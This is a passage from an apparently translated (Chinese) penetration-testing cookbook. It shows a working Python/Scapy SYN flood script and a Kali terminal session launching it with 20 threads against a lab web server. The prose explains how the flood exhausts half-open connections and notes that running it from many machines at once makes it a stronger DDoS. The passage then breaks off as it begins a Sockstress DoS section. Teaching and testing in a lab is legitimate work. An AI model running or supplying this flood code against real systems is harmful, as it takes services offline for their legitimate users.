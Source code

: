 ```
    sys.exit()

target = str(sys.argv[1]) 
port = int(sys.argv[2]) 
threads = int(sys.argv[3])

print "Performing SYN flood. Use Ctrl+C to stop attack." 
def synflood(target,port):   
    while 0 == 0:
        x = random.randint(0,65535)      
        send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)

    for x in range(0,threads):   
        thread.start_new_thread(synflood, (target,port))

    while 0 == 0:   
        sleep(1) 
```

脚本在执行时接受三个参数。 这些参数包括目标 IP 地址，SYN 泛洪所发送到的端口号，以及将用于执行 SYN 泛洪的线程或并发进程的数量。 每个线程以生成 0 到 65,535 之间的整数值开始。 此范围表示可分配给源端口的全部可能值。 定义源和目标端口地址的 TCP 报头的部分在长度上都是 16 比特。 每个位可以为 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端 口地址。 单个源端口只能维持一个半开连接，因此通过为每个 SYN 请求生成唯一的源端口地址，我们可以大大提高攻击的性能：

```
root@KaliLinux:~# ./syn_flood.py U
sage - ./syn_flood.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 80 20 
Example will perform a 20x multi-threaded SYN flood attack against the HTTP (port 80) service on 10.0.0.5 
root@KaliLinux:~# ./syn_flood.py 172.16.36.135 80 20 
Performing SYN flood. Use Ctrl+C to stop attack. 
```

当在没有任何参数的情况下执行脚本时，会将使用方法返回给用户。在提供的示例中，脚本对托管在`172.16.36.135`的 TCP 端口 80 上的 HTTP Web 服务执行，具有 20 个并发线程 。脚本本身提供的反馈很少; 但是，可以运行流量捕获工具（如 Wireshark 或 TCPdump）来验证是否正在发送连接。在非常短暂的时间之后，与服务器的连接尝试会变得非常慢或完全无响应。

### 工作原理

TCP 服务只允许建立有限数量的半开连接。 通过快速发送大量的 TCP SYN 请求，这些可用的连接会被耗尽，并且服务器将不再能够接受新的传入连接。 因此，新用户将无法访问该服务。 通过将其用作 DDoS 并且使多个攻击系统同时执行脚本，该攻击的效率可以进一步加强。

## 6.8 Sockstress DoS 攻击

Sockstress DoS 攻击涉及到与目标服务相关的 TCP 端口建立一系列开放连接。 TCP 握手中的最终 ACK 响应的值应为 0。

### 准备

为了使用 Scapy 对目标执行Sockstress DoS 攻击，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤
